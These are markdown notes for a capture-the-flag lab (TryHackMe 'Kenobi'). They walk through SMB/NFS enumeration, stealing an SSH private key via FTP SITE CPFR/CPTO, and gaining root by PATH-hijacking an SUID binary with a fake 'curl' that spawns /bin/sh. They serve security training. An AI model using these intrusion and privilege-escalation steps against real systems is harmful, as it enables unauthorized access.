 # 17. Kenobi 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | easy
Os | linux

**Notes :**

#categoty/windows 
#other/tool
#other/GAtactics 
#other/richInfo
#privilegeEscalation/moderate 
#privilegeEscalation/SUID



## Gaining Access 😉

- nmap script scan on 445th port which runs microsoft-ds/smb
- smbclient enumeration. reffer command [[#Important commands 🔥]]--> 2
- logged in with user password of attacking machine
- just typed `?` for help
- files can be downloaded with `smbget` command [[#Important commands 🔥]] -> 3
- nmap enumeration on rpcbind port 111. command [[#Important commands 🔥]]-->4 
- copied ssh key from /home/kenobi/.ssh/id_rsa to var/tmp using SITE CPFR & SITE CPTO command
- mkdir /mnt/kenobiNFS & `sudo mount ip:/var /mnt/kenobiNFS`
- `sudo mount 10.10.203.188:/var /mnt/kenobiNFS`
- copied id_rsa to present directory & connected with ssh 



## Maintaining Access 🥷
- /usr/bin/menu found with find -u=s mode
	- SUID
- running binary without sudo 
- that dosen't made more sense
- `strings /usr/bin/menu`
- output
	```
	curl -I localhost  
	uname -r  
	ifconfig
	```
	in this, running binary like curl and uname without full path `/usr/bin/curl`
- cd to tmp
- created new file named curl with content, reffer [[#Important commands 🔥]]-->6
- changed permission of curl & added `/tmp` to path
- executed `/usr/bin/menu`<--> officially root now!



## Important commands 🔥
1. nmap scan
	```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse
	```
2. smbclient
	```
	smbclient //10.10.203.188/anonymous
	```
3. sbmget
	```
	smbget \-R smb://10.10.203.188/anonymous
	```
4. rcpbind command
	```
	nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.203.188
	```
5. find syntax to search SUID
	```
	find / -perm -u=s -type f 2>/dev/null
	```
6. curl on tmp
	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	```
	
	

	
	

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- netcat to connect any port `nc <ip> <port> `  eg: `nc 10.10.203.188 21`
- make permission 600 for ssh keys: id_rsa
- -rw(==SUID==)rw(==SGID==)rw(stickybit)--> SUID permission
	- ==SUID==
		user execute file with file owner permission
	- ==SGID==
		user execute with pemission of group owner
		File created in directory gets the same group owner.
	- ==Stickybit==
		Users are prevented from deleting files from other users.
- executable can be open with `strings` as human readable
		
		


--------------------------------
**By Nibras Muhammed** 🤓🖥️

<mark>highlight</mark>




